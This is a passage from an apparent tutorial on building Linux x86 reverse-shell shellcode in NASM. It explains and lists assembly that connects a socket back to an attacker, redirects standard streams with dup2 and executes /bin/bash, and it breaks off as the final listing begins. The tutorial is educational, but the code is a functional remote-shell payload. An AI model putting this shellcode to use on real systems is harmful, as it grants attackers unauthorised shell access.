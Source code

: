 ```nasm
mov esi, esp
```

The reverse shellcode is simpler than a bind one since we only need to call `connect` and the server will initiate a connection to the attacker machine.

```nasm
; Connect socket
xor eax, eax
xor ebx, ebx
mov al, 0x66        ; sys_socketcall
mov bl, 0x3         ; SYS_CONNECT
push 0x10           ; socklen_t addrlen
push esi            ; const struct sockaddr *addr
push edi            ; int sockfd
mov ecx, esp
int 0x80
```

The same `dup2` function that is used with the bind shellcode is used here to redirect input & ouput then execute a shell with `execve`. The `/bin/bash`  string is pushed in reverse order on the stack but since the string needs to be null terminated, we will null out the `A` byte at offset `ESP + 11`.

```nasm
; Redirect STDIN, STDOUT, STDERR to socket
xor ecx, ecx
mov cl, 0x3         ; counter for loop (stdin to stderr)
mov ebx, edi        ; socket fd

dup2:
mov al, 0x3f        ; sys_dup2
dec ecx
int 0x80            ; sys_dup2
inc ecx
loop dup2

; execve()
xor eax, eax
push 0x41687361     ; ///bin/bashA
push 0x622f6e69
push 0x622f2f2f
mov byte [esp + 11], al
mov al, 0xb
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
``` 

The final shellcode looks like this:

```nasm
global _start

section .text

_start:

    ; Zero registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; Create socket
    mov al, 0x66        ; sys_socketcall
```